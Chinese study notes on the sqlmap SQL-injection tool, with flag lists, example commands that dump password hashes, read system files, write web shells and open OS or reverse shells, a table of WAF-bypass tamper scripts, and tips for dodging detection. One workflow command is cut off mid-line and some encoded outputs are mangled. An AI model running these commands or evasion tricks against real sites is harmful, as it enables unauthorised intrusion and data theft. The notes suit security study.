

---
categories:
  - 网络安全
date: 2025-12-29
description: 小迪secWeb攻防学习笔记
slug: 4
tags:
  - 
title: Web攻防-46天-sqlmap使用
cover:
  image: "1.png"
  relative: true
---

# sqlmap使用教程
进sqlmap目录中，可以增加字典。
思维导图：

基本操作：
```text
基本操作笔记：-u  #注入点 
-f  #指纹判别数据库类型 
-b  #获取数据库版本信息 
-p  #指定可测试的参数(?page=1&id=2 -p "page,id") 
-D ""  #指定数据库名 
-T ""  #指定表名 
-C ""  #指定字段 
-s ""  #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s "xx.log"　　恢复:-s "xx.log" --resume) 
--level=(1-5) #要执行的测试水平等级，默认为1 
--risk=(0-3)  #测试执行的风险等级，默认为1 
--time-sec=(2,5) #延迟响应，默认为5 
--data #通过POST发送数据 
--columns        #列出字段 
--current-user   #获取当前用户名称 
--current-db     #获取当前数据库名称 
--users          #列数据库所有用户 
--passwords      #数据库用户所有密码 
--privileges     #查看用户权限(--privileges -U root) 
-U               #指定数据库用户 
--dbs            #列出所有数据库 
--tables -D ""   #列出指定数据库中的表 
--columns -T "user" -D "mysql"      #列出mysql数据库中的user表的所有字段 
--dump-all            #列出所有数据库所有表 
--exclude-sysdbs      #只列出用户自己新建的数据库和表 
--dump -T "" -D "" -C ""   #列出指定数据库的表的字段的数据(--dump -T users -D master -C surname) 
--dump -T "" -D "" --start 2 --top 4  # 列出指定数据库的表的2-4字段的数据 
--dbms    #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB) 
--os      #指定系统(Linux,Windows) 
-v  #详细的等级(0-6) 
    0：只显示Python的回溯，错误和关键消息。 
    1：显示信息和警告消息。 
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
--privileges  #查看权限 
--is-dba      #是否是数据库管理员 
--roles       #枚举数据库用户角色 
--udf-inject  #导入用户自定义函数（获取系统权限） 
--union-check  #是否支持union 注入 
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

# sql流程
在确认注入点后，采用 `--is-dba #是否是数据库管理员 ` 先确定数据库权限，然后选择root型注入还是普通用户注入。
```text
权限高（root）可以进行一些高级操作，比如：`show databases;`
权限低（普通用户）可以尝试读取文件、shell、写入文件。
```

## POST注入
`-r` 读取txt文件，在需要注入的地方后面加入 `*` ，如果不加会对全部地方进行测试。

`*` 代表注入点：`test*`


> [!NOTE]
> --cookie等可能会有数据完整性的问题，所以采用这种方式。
> 比如：
> 有的网站只能手机访问，有个注入点
> 如果不是通过抓包得到的请求的注入点数据包去注入的话
> sqlmap就会采用自己的访问头去访问注入（可能访问不到，访问不到就无法注入。）-r 的模式也能避免被识别。

## tamper模块
常用tamper脚本：
通用：

|   |   |   |   |   |
|---|---|---|---|---|
|支持的数据库|编号|脚本名称|作用|实现方式|
|all|1|apostrophemask.py|用utf8代替引号|("1 AND '1'='1")   <br>'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'|
|2|base64encode.py|用base64编码替换|("1' AND SLEEP(5)#")  <br>'MScgQU5EIFNMRUVQKDUpIw=='|
|3|multiplespaces.py|围绕SQL关键字添加多个空格|('1 UNION SELECT foobar')  <br>'1    UNION     SELECT   foobar'|
|4|space2plus.py|用+替换空格|('SELECT id FROM users')  <br>'SELECT+id+FROM+users'|
|5|nonrecursivereplacement.py|双重查询语句。取代predefined SQL关键字with表示   <br>suitable for替代（例如  .replace（“SELECT”、”")） filters|('1 UNION SELECT 2--')  <br>'1 UNIOUNIONN SELESELECTCT 2--'|
|6|space2randomblank.py|代替空格字符（“”）从一个随机的空  <br>白字符可选字符的有效集|('SELECT id FROM users')  <br>'SELECT%0Did%0DFROM%0Ausers'|
|7|unionalltounion.py|替换UNION ALL SELECT UNION SELECT|('-1 UNION ALL SELECT')  <br>'-1 UNION SELECT'|
|8|securesphere.py|追加特制的字符串|('1 AND 1=1')  <br>"1 AND 1=1 and '0having'='0having'"|
|mssql|1|space2hash.py|绕过过滤‘=’ 替换空格字符（”），（’ – ‘）后跟一个破折号注释，一个随机字符串和一个新行（’ n’）|'1 AND 9227=9227'   <br>'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'|
|2|equaltolike.py|like 代替等号|* Input: SELECT * FROM users WHERE id=1   <br>2 * Output: SELECT * FROM users WHERE id LIKE 1|
|3|space2mssqlblank.py(mssql)|空格替换为其它空符号|Input: SELECT id FROM users  <br>Output: SELECT%08id%02FROM%0Fusers|
|4|space2mssqlhash.py|替换空格|('1 AND 9227=9227')  <br>'1%23%0AAND%23%0A9227=9227'|
|5|between.py|用between替换大于号（>）|('1 AND A > B--')  <br>'1 AND A NOT BETWEEN 0 AND B--'|
|6|percentage.py|asp允许每个字符前面添加一个%号|* Input: SELECT FIELD FROM TABLE  <br>* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E|
|7|sp_password.py|追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾|('1 AND 9227=9227-- ')  <br>'1 AND 9227=9227-- sp_password'|
|8|charencode.py|url编码|* Input: SELECT FIELD FROM%20TABLE  <br>* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45|
|9|randomcase.py|随机大小写|* Input: INSERT  <br>* Output: InsERt|
|10|charunicodeencode.py|字符串 unicode 编码|* Input: SELECT FIELD%20FROM TABLE  <br>* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′|
|11|space2comment.py|Replaces space character (‘ ‘) with comments ‘/**/’|* Input: SELECT id FROM users  <br>* Output: SELECT//id//FROM/**/users|
|mysql >= 5.1.13|1|equaltolike.py|like 代替等号|* Input: SELECT * FROM users WHERE id=1   <br>2 * Output: SELECT * FROM users WHERE id LIKE 1|
|2|greatest.py|绕过过滤’>’ ,用GREATEST替换大于号。|('1 AND A > B')  <br>'1 AND GREATEST(A,B+1)=A'|
|3|apostrophenullencode.py|绕过过滤双引号，替换字符和双引号。|tamper("1 AND '1'='1")  <br>  <br>'1 AND %00%271%00%27=%00%271'|
|4|ifnull2ifisnull.py|绕过对 IFNULL 过滤。  <br>替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’|('IFNULL(1, 2)')  <br>'IF(ISNULL(1),2,1)'|
|5|space2mssqlhash.py|替换空格|('1 AND 9227=9227')  <br>'1%23%0AAND%23%0A9227=9227'|
|6|modsecurityversioned.py|过滤空格，包含完整的查询版本注释|('1 AND 2>1--')  <br>'1 /*!30874AND 2>1*/--'|
|7|space2mysqlblank.py|空格替换其它空白符号(mysql)|Input: SELECT id FROM users  <br>Output: SELECT%0Bid%0BFROM%A0users|
|8|between.py|用between替换大于号（>）|('1 AND A > B--')  <br>'1 AND A NOT BETWEEN 0 AND B--'|
|9|modsecurityzeroversioned.py|包含了完整的查询与零版本注释|('1 AND 2>1--')  <br>'1 /*!00000AND 2>1*/--'|
|10|space2mysqldash.py|替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’）|('1 AND 9227=9227')  <br>'1--%0AAND--%0A9227=9227'|
|11|bluecoat.py|代替空格字符后与一个有效的随机空白字符的SQL语句。  <br>然后替换=为like|('SELECT id FROM users where id = 1')  <br>'SELECT%09id FROM users where id LIKE 1'|
|12|percentage.py|asp允许每个字符前面添加一个%号|* Input: SELECT FIELD FROM TABLE  <br>* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E|
|13|charencode.py|url编码|* Input: SELECT FIELD FROM%20TABLE  <br>* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45|
|14|randomcase.py|随机大小写|* Input: INSERT  <br>* Output: InsERt|
|15|versionedkeywords.py|Encloses each non-function keyword with versioned MySQL comment|* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#  <br>* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#|
|16|space2comment.py|Replaces space character (‘ ‘) with comments ‘/**/’|* Input: SELECT id FROM users  <br>* Output: SELECT//id//FROM/**/users|
|17|charunicodeencode.py|字符串 unicode 编码|* Input: SELECT FIELD%20FROM TABLE  <br>* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′|
|18|versionedmorekeywords.py|注释绕过|* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#  <br>* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#|
|MySQL < 5.1|19|halfversionedmorekeywords.py|关键字前加注释|* Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa  <br>* Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa|
|20|halfversionedmorekeywords.py|当数据库为mysql时绕过防火墙，每个关键字之前添加  <br>mysql版本评论|1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")  <br>2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"|
|MySQL >= 5.1.13|21|space2morehash.py|空格替换为 #号 以及更多随机字符串 换行符|* Input: 1 AND 9227=9227  <br>* Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227|
|Oracle|1|greatest.py|绕过过滤’>’ ,用GREATEST替换大于号。|('1 AND A > B')  <br>'1 AND GREATEST(A,B+1)=A'|
|2|apostrophenullencode.py|绕过过滤双引号，替换字符和双引号。|tamper("1 AND '1'='1")  <br>  <br>'1 AND %00%271%00%27=%00%271'|
|3|between.py|用between替换大于号（>）|('1 AND A > B--')  <br>'1 AND A NOT BETWEEN 0 AND B--'|
|4|charencode.py|url编码|* Input: SELECT FIELD FROM%20TABLE  <br>* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45|
|5|randomcase.py|随机大小写|* Input: INSERT  <br>* Output: InsERt|
|6|charunicodeencode.py|字符串 unicode 编码|* Input: SELECT FIELD%20FROM TABLE  <br>* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′|
|7|space2comment.py|Replaces space character (‘ ‘) with comments ‘/**/’|* Input: SELECT id FROM users  <br>* Output: SELECT//id//FROM/**/users|
|PostgreSQL|1|greatest.py|绕过过滤’>’ ,用GREATEST替换大于号。|('1 AND A > B')  <br>'1 AND GREATEST(A,B+1)=A'|
|2|apostrophenullencode.py|绕过过滤双引号，替换字符和双引号。|tamper("1 AND '1'='1")  <br>  <br>'1 AND %00%271%00%27=%00%271'|
|3|between.py|用between替换大于号（>）|('1 AND A > B--')  <br>'1 AND A NOT BETWEEN 0 AND B--'|
|4|percentage.py|asp允许每个字符前面添加一个%号|* Input: SELECT FIELD FROM TABLE  <br>* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E|
|5|charencode.py|url编码|* Input: SELECT FIELD FROM%20TABLE  <br>* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45|
|6|randomcase.py|随机大小写|* Input: INSERT  <br>* Output: InsERt|
|7|charunicodeencode.py|字符串 unicode 编码|* Input: SELECT FIELD%20FROM TABLE  <br>* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′|
|8|space2comment.py|Replaces space character (‘ ‘) with comments ‘/**/’|* Input: SELECT id FROM users  <br>* Output: SELECT//id//FROM/**/users|
|Access|1|appendnullbyte.py|在有效负荷结束位置加载零字节字符编码|('1 AND 1=1')  <br>'1 AND 1=1%00'|
|其他||chardoubleencode.py|双url编码(不处理以编码的)|* Input: SELECT FIELD FROM%20TABLE  <br>* Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545|
||unmagicquotes.py|宽字符绕过 GPC  addslashes|* Input: 1′ AND 1=1  <br>* Output: 1%bf%27 AND 1=1–%20|
||randomcomments.py|用/**/分割sql关键字|‘INSERT’ becomes ‘IN//S//ERT’|

## sqlmap分析拓展-代理&调试&指纹&风险&等级
通过 -v 等级 来分析payload。（可详细见上面备注）
1、后期分析调试：
```shell
-v=(0-6) #详细的等级（0-6）可见上方备注
--proxy "http://xx:xx" #代理注入、联动burp、网上买代理池，用代理注入
```
2、打乱默认指纹：
sqlmap有默认指纹：

```shell
--user-agent " " #自定义user-agent
--random-agent #随机user-agent
--time-sec=(2,5) #延迟响应，默认为5（当访问请求过快会被封，用这个）
```
3、使用更多的测试：测试Header注入
```shell
--level=(1-5) #要执行的测试水平顶级，默认为1
--risk=(0-3) #测试执行的风险等级，默认为1

当没有 `*` 时：

- `--level` 决定：
    
    - 测试哪些位置
        
    - GET / POST / Cookie / Header
        
- `--risk` 决定：
    
    - 使用哪些 payload（是否用高危 payload）
```
备注：`*` 的优先级会高于level,risk。没有 `*` 会默认自动分析所有参数，即 `--level` 生效；但当 `*` 存在，`--level` 基本等于无效。当自己不确定注入点，就可以使用 `--level` 来让sqlmap自己找。